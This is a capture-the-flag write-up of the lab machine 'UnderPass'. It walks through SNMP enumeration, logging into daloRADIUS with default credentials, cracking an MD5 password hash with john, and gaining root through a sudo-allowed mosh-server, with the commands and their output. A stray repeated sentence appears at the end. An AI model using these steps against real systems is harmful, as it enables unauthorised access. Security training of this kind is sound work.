


UnderPass is an easy Linux box featuring SNMP enumeration, daloRADIUS exploitation, and mosh-server privilege escalation.

## Reconnaissance

I started with a TCP port scan:

```text
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp    open     http       Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Port 80 showed the default Apache page. Directory fuzzing didn't reveal anything useful initially.

I then ran a UDP scan which discovered SNMP on port 161:

```text
PORT    STATE SERVICE
161/udp open  snmp
```

## Initial Access

SNMP v1/v2 uses community strings for access, and `public` is a common default (CVE-1999-0517). I tested it:

```bash
snmpwalk -v2c -c public 10.129.231.213
```

The output contained valuable information:

```text
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
```

The SNMP description mentioned **daloradius**. I visited `http://10.129.231.213/daloradius` and got a 403 error, confirming the path existed.

The daloRADIUS operator login at `/daloradius/app/operators/login.php` accepted the default credentials `administrator:radius`. 



From the dashboard, I clicked **"Go to users list"** which showed a single user `svcMosh` with a 32-character hash in the password field: svcMosh | 412DD4759978ACFCC81DEAB01B382403



I cracked the MD5 hash with john:

```bash
echo "412DD4759978ACFCC81DEAB01B382403" | john --format=Raw-MD5
```

It revealed the password `underwaterfriends`. SSH login worked:

```bash
ssh svcMosh@underpass.htb
```

## Privilege Escalation

Checking sudo permissions showed an interesting entry:

```bash
sudo -l
```

```text
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

`mosh-server` could be run as root without a password. I executed it:

```bash
sudo /usr/bin/mosh-server
```

```text
MOSH CONNECT 60001 I+7tea6K/xSw5n+HFcITBQ

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 1539]
```

The output provided a connection string with port `60001` and key `I+7tea6K/xSw5n+HFcITBQ`. Using `mosh-client` with the key connected me as root:

```bash
MOSH_KEY='I+7tea6K/xSw5n+HFcITBQ' mosh-client 127.0.0.1 60001
```

```bash
root@underpass:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## Attack Path

- **TCP scan** — identify SSH and default Apache page.
- **UDP scan** — discover SNMP service on port 161.
- **SNMP enumeration** — use `public` community string to extract hostname and daloRADIUS hint.
- **Access daloRADIUS** — find operator login at `/daloradius/app/operators/login.php`.
- **Default credentials** — authenticate as `administrator:radius`.
- **Extract user data** — locate `svcMosh` account with MD5 hash from users list.
- **Crack password** — recover `underwaterfriends` and SSH into the host.
- **Sudo enumeration** — identify `mosh-server` can run as root without password.
- **Execute mosh-server** — capture connection port and session key.
- **Connect as root** — use `mosh-client` with the session key for root access.
From the dashboard, I clicked **"Go to users list"** which showed a single user `svcMosh` with a 32-character hash in the password field:
